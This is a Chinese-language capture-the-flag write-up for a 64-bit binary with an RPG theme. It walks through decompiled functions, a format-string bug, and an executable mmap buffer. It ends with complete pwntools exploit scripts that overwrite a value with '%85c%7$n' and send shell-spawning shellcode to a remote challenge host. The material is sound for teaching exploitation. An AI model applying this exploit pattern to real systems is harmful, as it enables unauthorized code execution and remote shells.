

```c

__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  _DWORD *v3; // rax
  __int64 v5; // [rsp+18h] [rbp-78h]

  setbuf(stdout, 0LL);
  alarm(0x3Cu);
  sub_400996();
  v3 = malloc(8uLL); // long long 64bit. 8 bytes.
  v5 = (__int64)v3;
  *v3 = 68;
  v3[1] = 85;
  puts("we are wizard, we will give you hand, you can not defeat dragon by yourself ...");
  puts("we will tell you two secret ...");
  printf("secret[0] is %x\n", v5); // 输出v3地址
  printf("secret[1] is %x\n", v5 + 4); // 输出v3+4的地址
  puts("do not tell anyone ");
  sub_400D72(v5);
  puts("The End.....Really?");
  return 0LL;
}

```

```c
unsigned __int64 __fastcall sub_400D72(__int64 a1)
{
  char s; // [rsp+10h] [rbp-20h]
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("What should your character's name be:");
  _isoc99_scanf((__int64)"%s", (__int64)&s);
  if ( strlen(&s) <= 0xC ) // 名字小于12进入
  {
    puts("Creating a new player.");
    sub_400A7D();
    sub_400BB9();
    sub_400CA6((_DWORD *)a1);
  }
  else
  {
    puts("Hei! What's up!");
  }
  return __readfsqword(0x28u) ^ v3;
}
```
__名字小于12进入3个函数__
```c
unsigned __int64 sub_400A7D()
{
  char s1; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts(" This is a famous but quite unusual inn. The air is fresh and the");
  puts("marble-tiled ground is clean. Few rowdy guests can be seen, and the");
  puts("furniture looks undamaged by brawls, which are very common in other pubs");
  puts("all around the world. The decoration looks extremely valuable and would fit");
  puts("into a palace, but in this city it's quite ordinary. In the middle of the");
  puts("room are velvet covered chairs and benches, which surround large oaken");
  puts("tables. A large sign is fixed to the northern wall behind a wooden bar. In");
  puts("one corner you notice a fireplace.");
  puts("There are two obvious exits: east, up.");
  puts("But strange thing is ,no one there.");
  puts("So, where you will go?east or up?:");
  while ( 1 )
  {
    _isoc99_scanf((__int64)"%s", (__int64)&s1);
    if ( !strcmp(&s1, "east") || !strcmp(&s1, "east") )
      break;
    puts("hei! I'm secious!");
    puts("So, where you will go?:");
  }
  if ( strcmp(&s1, "east") )
  {
    if ( !strcmp(&s1, "up") )
      sub_4009DD();
    puts("YOU KNOW WHAT YOU DO?");
    exit(0);
  }
  return __readfsqword(0x28u) ^ v2;
}

```

__如果输入east就会返回，否则就会进入sub_4009DD()，然后无论如何都会结束程序。__

sub_400BB9()

```c
unsigned __int64 sub_400BB9()
{
  int v1; // [rsp+4h] [rbp-7Ch]
  __int64 v2; // [rsp+8h] [rbp-78h]
  char format; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  v2 = 0LL;
  puts("You travel a short distance east.That's odd, anyone disappear suddenly");
  puts(", what happend?! You just travel , and find another hole");
  puts("You recall, a big black hole will suckk you into it! Know what should you do?");
  puts("go into there(1), or leave(0)?:");
  _isoc99_scanf((__int64)"%d", (__int64)&v1);
  if ( v1 == 1 )
  {
    puts("A voice heard in your mind");
    puts("'Give me an address'");
    _isoc99_scanf((__int64)"%ld", (__int64)&v2);
    puts("And, you wish is:");
    _isoc99_scanf((__int64)"%s", (__int64)&format);
    puts("Your wish is");
    printf(&format);
    puts("I hear it, I hear it....");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

输入east之后就会进入这个函数。可以看到有一个格式字符串漏洞。

sub_400CA6()

```c
unsigned __int64 __fastcall sub_400CA6(_DWORD *a1)
{
  void *v1; // rsi
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("Ahu!!!!!!!!!!!!!!!!A Dragon has appeared!!");
  puts("Dragon say: HaHa! you were supposed to have a normal");
  puts("RPG game, but I have changed it! you have no weapon and ");
  puts("skill! you could not defeat me !");
  puts("That's sound terrible! you meet final boss!but you level is ONE!");
  if ( *a1 == a1[1] )
  {
    puts("Wizard: I will help you! USE YOU SPELL");
    v1 = mmap(0LL, 0x1000uLL, 7, 33, -1, 0LL);
    read(0, v1, 0x100uLL);
    ((void (__fastcall *)(_QWORD))v1)(0LL);
  }
  return __readfsqword(0x28u) ^ v3;
}
```

sub_400BB9()返回之后会进入这个函数并且这个函数还有一个参数。分析可知这个参数指向的地址是main函数中*v3指向的地址。当*v3==*v3+4时会调用一个mmap()函数通过查阅相关资料可以发现这个函数给我们分配了一个长度为0x1000的内存空间，并且这个空间是可以执行代码的。之后还调用通过函数指针访问这个地址。也就是说会执行这段内存空间中的代码。

## 0X01 利用过程

函数sub_400BB9()内的v2是我们输入的v4的地址，我们需要知道v2在栈内的位置，这样才能通过 %?$n 向v2指向的地址处写入字符串长度。

在main()函数中将*v3赋值为68*v3+4赋值为85，要想修改*v3指向地址的值只能通过格式化字符串漏洞来修改。所以先确定偏移量。

```python
#查看sub_400BB9()栈内情况
from pwn import *
p=remote('124.126.19.106','49759')
context(arch='amd64', os='linux', log_level='debug')
p.recvuntil('secret[0] is ')
v4_addr = int(p.recvuntil('\n')[:-1], 16)
p.sendlineafter("What should your character's name be:", 'cxk')
p.sendlineafter("So, where you will go?east or up?:", 'east')
p.sendlineafter("go into there(1), or leave(0)?:", '1')
p.sendlineafter("'Give me an address'", str(int(v4_addr)))
p.sendlineafter("And, you wish is:",'AAAA'+'-%p'*10)
p.recvuntil('I hear it')
```



上上图选中处，0xc23010是v2的内容，因为v2在format(就是许下的愿望wish)的前面一位，而通过0x41414141(A的ascii是0x41)

（图中是0x2d70252d41414141，是因为这是64位程序）可以找到format的起始位置。v2是栈内第7个参数。

可以看到偏移量是8，偏移量为7处为上一次输入的数值。因为在主函数中给出了*v3的地址，

只需要将*v3的地址在格式化字符串之前输入就可以通过%85c%7$n修改*v3的值。最后输入一段shellcode到mmap()分配的内存空间中就可以完成getshell。

所以wish就写成 %85c%7$n ，作用是将85写入栈内第7个参数所指向的地址。
```python
# shellcode
from pwn import *
p=remote('124.126.19.106','49759')

context(arch='amd64', os='linux', log_level='debug')
p.recvuntil('secret[0] is ')
v4_addr = int(p.recvuntil('\n')[:-1], 16)
p.sendlineafter("What should your character's name be:", 'cxk')
p.sendlineafter("So, where you will go?east or up?:", 'east')
p.sendlineafter("go into there(1), or leave(0)?:", '1')
p.sendlineafter("'Give me an address'", str(int(v4_addr)))
# %85c%7$n ，作用是将85写入栈内第7个参数所指向的地址
# %85c 输出了85个字符，再用 %7$n 将第七个参数的位置写成了85
p.sendlineafter("And, you wish is:", '%85c%7$n') 
# gdb.attach(sh)
shellcode = asm(shellcraft.sh())
p.sendlineafter("USE YOU SPELL", shellcode)
p.interactive()
```


